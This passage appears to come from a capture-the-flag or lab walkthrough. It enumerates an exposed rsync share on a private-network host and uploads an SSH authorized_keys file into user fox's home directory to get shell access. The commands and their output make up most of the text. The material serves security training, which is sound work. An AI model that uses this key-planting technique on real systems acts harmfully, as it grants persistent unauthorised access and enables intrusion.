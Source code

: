 Let us start by enumerating what shares we have in rsync.

```
┌──(root💀nehal)-[~]
└─# nc -nv 192.168.139.126 873
(UNKNOWN) [192.168.139.126] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT
```

We can see that we have a share called **fox**. By the comment alogside, we can infer that **fox** is a user of the server and we have his home directory as the rsync share.

We can confirm the same with **rsync** utility.

```
┌──(root💀nehal)-[~]
└─# rsync -av --list-only rsync://192.168.139.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 19:51:59 .
lrwxrwxrwx              9 2020/12/04 01:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 09:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 09:42:36 .bashrc
-rw-r--r--            807 2019/04/18 09:42:36 .profile

sent 20 bytes  received 136 bytes  44.57 bytes/sec
total size is 4,562  speedup is 29.24
```

So this certainly looks like a user's home directory.

## SHELL AS FOX:

Since we have access to **fox**'s home directory, we can place SSH keys there with rsync and eventually login as **fox**.

```
┌──(root💀nehal)-[~]
└─# rsync -av keys/ rsync://fox@192.168.139.126/fox/.ssh
sending incremental file list
created directory /.ssh
./
authorized_keys

sent 698 bytes  received 66 bytes  218.29 bytes/sec
total size is 564  speedup is 0.74
┌──(root💀nehal)-[~]
└─# rsync -av --list-only rsync://192.168.139.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/06/14 00:40:41 .
lrwxrwxrwx              9 2020/12/04 01:52:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 09:42:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 09:42:36 .bashrc
-rw-r--r--            807 2019/04/18 09:42:36 .profile
drwxr-xr-x          4,096 2021/06/14 06:10:34 .ssh
-rw-r--r--            564 2021/06/14 06:08:52 .ssh/authorized_keys

sent 21 bytes  received 199 bytes  62.86 bytes/sec
total size is 5,126  speedup is 23.30
```
